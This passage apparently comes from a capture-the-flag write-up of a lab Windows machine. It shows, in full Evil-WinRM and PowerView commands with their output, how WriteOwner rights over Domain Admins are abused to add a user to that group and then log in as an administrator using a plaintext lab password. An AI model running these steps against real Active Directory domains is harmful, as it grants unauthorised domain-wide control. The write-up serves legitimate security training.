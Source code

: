 ## Abusing WriteOwner Privileges

The user **MARIA@OBJECT.LOCAL** has the ability to modify the owner of the group **DOMAIN ADMINS@OBJECT.LOCAL** which means that we have the ability to modify object security descriptors. With these privileges we can set the owner of the Domain Admins group to **maria**.

```bash
*Evil-WinRM* PS C:\Users\maria\Documents> upload ../../var/www/html/PowerView.ps1
                                        
Info: Uploading /home/ax/../../var/www/html/PowerView.ps1 to C:\Users\maria\Documents\PowerView.ps1
                                        
Data: 1027036 bytes of 1027036 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\maria\Documents> import-module .\PowerView.ps1
*Evil-WinRM* PS C:\Users\maria\Documents> Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'maria'
*Evil-WinRM* PS C:\Users\maria\Documents> Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity maria -Rights All
*Evil-WinRM* PS C:\Users\maria\Documents> net group "Domain Admins" maria /add /domain
The command completed successfully.
```

Now, we just have to logout and log back in to get our new privileges and grab the **second flag**.

```bash
$ evil-winrm -i 10.129.96.147 -u maria -p W3llcr4ft3d_4cls
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\maria\Documents> cd c:\Users\Administrator\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        5/24/2023  10:55 AM             34 root.txt
```

Awesome! I hope you enjoyed it, I know I did :)
